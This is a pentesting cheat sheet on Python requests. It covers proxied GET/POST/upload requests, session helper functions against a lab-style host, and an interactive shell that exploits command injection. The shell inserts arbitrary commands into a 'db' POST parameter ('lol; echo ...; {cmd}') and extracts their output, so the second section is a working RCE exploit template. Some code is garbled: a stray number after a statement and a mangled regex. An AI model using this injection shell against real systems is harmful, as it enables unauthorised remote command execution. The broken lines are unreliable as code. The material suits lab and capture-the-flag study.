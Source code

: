 # Web Requests



## Python Requests

```python
import requests

url = "http://example.com:80/some/path.php"
params = {"p1":"value1", "p2":"value2"}
headers = {"User-Agent": "fake User Agent", "Fake header": "True value"}
cookies = {"PHPSESSID": "1234567890abcdef", "FakeCookie123": "456"}
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

#Regular Get requests sending parameters (params)
gr = requests.get(url, params=params, headers=headers, cookies=cookies, verify=False, allow_redirects=True)

code = gr.status_code
ret_headers = gr.headers
body_byte = gr.content
body_text = gr.text
ret_cookies = gr.cookies
is_redirect = gr.is_redirect
is_permanent_redirect = gr.is_permanent_redirect
float_seconds = gr.elapsed.total_seconds() 10.231

#Regular Post requests sending parameters (data)
pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

#Json Post requests sending parameters(json)
pr = requests.post(url, json=params, headers=headers, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

#Post request sending a file(files) and extra values
filedict = {"<FILE_PARAMETER_NAME>" : ("filename.png", open("filename.png", 'rb').read(), "image/png")}
pr = requests.post(url, data={"submit": "submit"}, files=filedict)

#Useful for presenting results in boolean/time based injections
print(f"\rflag: {flag}{char}", end="")



##### Example Functions
target = "http://10.10.10.10:8000"
proxies = {}
s = requests.Session()

def register(username, password):
    resp = s.post(target + "/register", data={"username":username, "password":password, "submit": "Register"}, proxies=proxies, verify=0)
    return resp

def login(username, password):
    resp = s.post(target + "/login", data={"username":username, "password":password, "submit": "Login"}, proxies=proxies, verify=0)
    return resp

def get_info(name):
    resp = s.post(target + "/projects", data={"name":name, }, proxies=proxies, verify=0)
    guid = re.match('[[\/info\/([^)', resp.text|' \+ name \+ ']][1]
    return guid

def upload(guid, filename, data):
    resp = s.post(target + "/upload/" + guid, data={"submit": "upload"}, files={"file":(filename, data)}, proxies=proxies, verify=0)
    guid = re.match('"' + filename + '": "([^"]*)"', resp.text)[1]
    return guid

def json_search(guid, search_string):
    resp = s.post(target + "/api/search/" + guid + "/", json={"search":search_string}, headers={"Content-Type": "application/json"}, proxies=proxies, verify=0)
    return resp.json()

def get_random_string(guid, path):
    return ''.join(random.choice(string.ascii_letters) for i in range(10))
```
```
## Python cmd to exploit an RCE

```python
import requests
import re
from cmd import Cmd

class Terminal(Cmd):
    prompt = "Inject => "

    def default(self, args):
        output = RunCmd(args)
        print(output)

def RunCmd(cmd):
    data = { 'db': f'lol; echo -n "MYREGEXP"; {cmd}; echo -n "MYREGEXP2"' }
    r = requests.post('http://10.10.10.127/select', data=data)
    page = r.text
    m = re.search('MYREGEXP(.*?)MYREGEXP2', page, re.DOTALL)
    if m:
        return m.group(1)
    else:
        return 1

term = Terminal()
term.cmdloop()
```
```



